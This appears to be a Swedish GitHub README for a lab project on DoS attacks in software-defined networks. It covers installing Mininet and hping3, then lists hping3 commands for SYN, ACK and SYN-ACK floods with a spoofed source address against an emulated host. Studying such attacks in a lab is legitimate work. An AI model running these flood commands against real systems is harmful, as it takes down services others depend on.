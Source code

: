 # SYN-FLOOD-DOS-ATTACKER-I-SDN
Detta reposetory är en guide till installationen av mininet och dokumentation av olika attack typer.

## Installation av mininet i UBUNTU

först insatalera vi mininet genom sudo `apt-get install mininet`.

sedan ladda vi ner github `sudo apt-get install git`.

vi clona mininet github `git clone git://github.com/mininet/mininet`.

i mininet hitta `git tag`.

kopiera tag.

skapa en ny gren `git checkout -b "tag"`.

ladda ned python och andra verktyg för mininet `mininet/util/install.sh -a`.

lägg till din linux distributiuon, den finns på topen när du ladar ner `mininet/util/install.sh -a "din linux distributiuon"`.

## Starta mininet

för att starta en simpel mininet skriver du `sudo mn` det ger den en kontroller en switch och två host.

för att köra vår typ kör en av våra python skripter.

## Installation av hping3

ladda ner hping3 med `sudo apt-get install hping3`

## hping3 attack

SYN-flood attack `hping3 "host2 ip-address" --syn --flood -a 10.0.0.13`.

ACK-flood attack `hping3 "host2 ip-address" --ack --flood -a 10.0.0.13`

SYN-ACK-flood attack `hping3 "host2 ip-address" --syn --ack --flood -a 10.0.0.13`

## SSH daemon
för att köra en ssh på en host skriver du `sudo ~/mininet/examples/sshd.py`.

nu kan du ssh från en annan terminal till en host `ssh "IP-adress"`
